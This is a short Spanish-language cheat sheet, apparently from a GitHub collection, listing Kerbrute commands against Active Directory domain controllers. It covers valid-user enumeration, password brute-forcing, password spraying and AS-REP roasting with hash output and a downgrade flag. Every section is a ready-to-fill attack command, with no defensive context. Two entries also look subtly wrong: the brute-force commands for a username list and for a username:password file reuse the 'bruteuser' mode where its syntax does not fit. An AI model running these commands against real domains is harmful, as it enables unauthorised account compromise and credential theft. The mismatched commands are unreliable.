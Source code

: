 # Kerbrute Cheat Sheet

#### Enumerar usuarios validos
```
kerbrute userenum --dc <IP-TARGET> -d <DOMAIN> <WORDLISTS>
```

#### Enumerar usuarios validos y guardar el resultado
```
kerbrute userenum --dc <IP-TARGET> -d <DOMAIN> <WORDLISTS> -o <OUTPUT>
```

#### Fuerza bruta de contraseñas a un usuario en particular
```
kerbrute bruteuser --dc <IP-TARGET> -d <DOMAIN> <FILE-PASSWORDS_LIST> <USER>
```

#### Fuerza bruta de una contraseña en particular a un listado de usuarios
```
kerbrute bruteuser --dc <IP-TARGET> -d <DOMAIN> <FILE-USERNAME_LIST> <PASSWORD>
```

#### Password Spraying
```
kerbrute passwordspray --dc <IP-TARGET> -d <DOMAIN> <FILE-USERNAME_LIST> <PASSWORD>
```

#### Fuerza bruta desde un archivo con un listado con formato username:password
```
kerbrute bruteuser --dc <IP-TARGET> -d <DOMAIN> <FILE-USERNAME_PASSWORD_LIST> <USER>
```

#### ASREP-Roasting Attack
```
kerbrute userenum -d <DOMAIN> --dc <IP-TARGET> <WORDLISTS> --hash-file hash.asreproast --downgrade
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)